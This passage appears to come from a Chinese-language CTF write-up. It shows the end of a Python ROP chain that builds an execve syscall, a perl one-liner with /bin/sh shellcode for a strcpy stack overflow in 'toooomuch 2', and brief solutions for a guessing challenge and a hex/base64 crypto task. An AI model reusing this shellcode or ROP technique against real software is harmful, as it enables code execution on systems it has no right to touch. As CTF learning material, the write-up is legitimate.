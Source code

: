 ```python
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
print p
```

### toooomuch

找一下可發現passcode為43210

然後就是玩猜數字比大小遊戲，可以一直猜，猜對就噴FLAG給你

### toooomuch 2

這題就是strcpy的地方有洞，可以蓋無限長到return address

直接塞shellcode，然後把return address蓋成shellcode位址即可

payload:

`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80","\x90"x5,"\x60\x9c\x04\x08\n"'`

## Crypto

### easy

直接解hex，會得到base64加密過的字串

再解base64就能拿到FLAG

### r u kidding
